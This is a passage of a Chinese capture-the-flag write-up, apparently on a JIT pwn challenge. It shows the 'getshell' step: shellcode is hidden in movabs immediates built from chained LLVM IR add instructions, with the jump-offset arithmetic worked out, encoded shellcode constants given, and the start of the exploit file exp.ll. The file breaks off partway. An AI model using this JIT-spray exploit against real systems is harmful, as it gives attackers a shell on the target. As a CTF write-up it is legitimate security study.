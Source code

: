 ```
16999840169015130986
16999840169015152728
16999840169015117071
```

接下来，我们要进行调试，构造出能够产生jmp指令两个长函数以供handle函数解析。

## Step 7: getshell
我们在一个函数中写入很多的add指令，就像下面这样。经过测试得出=，当写到%315时，有一个movabs指令能够成功溢出到0xFF0之后，不过这是第一条指令。因此我们写shellcode应该写在前面几个指令中。
![](15.png)
下面是解析第一个函数后最后几个字节的情况：
![](16.png)
下面是解析第二个函数后最后几个字节的情况：
![](17.png)
由下图可以得出，我们可以控制的是第一个函数最后一个movabs中最后的4个字节：
![](18.png)
根据下图可知，第一个短转移（即图中的jmp）偏移应该为：``-(0xff3-(0xfde+2))=-0x13=0xed``
![](19.png)
如图所示，这样就可以跳转到我们的第一个shellcode了。第一个立即数的值应该为``0xEDEB00000000``。（低4字节无所谓）
![](20.png)
然后我们只要将上面脚本中的值依次写入到下面即可。
![](21.png)
成功getshell。
![](22.png)
exp.ll如下：

```
; ModuleID = 'test.c'
source_filename = "test.c"
target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128"
target triple = "x86_64-pc-linux-gnu"

; Function Attrs: noinline nounwind optnone uwtable
define dso_local i64 @test(i64 %0) #0 {
  %2 = add nsw i64 %0, 261593573097472
  %3 = add nsw i64 %2, 256
  %4 = add nsw i64 %3, 256
  %5 = add nsw i64 %4, 256
  %6 = add nsw i64 %5, 256
  %7 = add nsw i64 %6, 256
  %8 = add nsw i64 %7, 256
  %9 = add nsw i64 %8, 256
  %10 = add nsw i64 %9, 256
  %11 = add nsw i64 %10, 256
  %12 = add nsw i64 %11, 256
  %13 = add nsw i64 %12, 256
  %14 = add nsw i64 %13, 256
  %15 = add nsw i64 %14, 256
  %16 = add nsw i64 %15, 256
  %17 = add nsw i64 %16, 256
  %18 = add nsw i64 %17, 256
  %19 = add nsw i64 %18, 256
  %20 = add nsw i64 %19, 256
  %21 = add nsw i64 %20, 256
  %22 = add nsw i64 %21, 256
  %23 = add nsw i64 %22, 256
  %24 = add nsw i64 %23, 256
  %25 = add nsw i64 %24, 256
```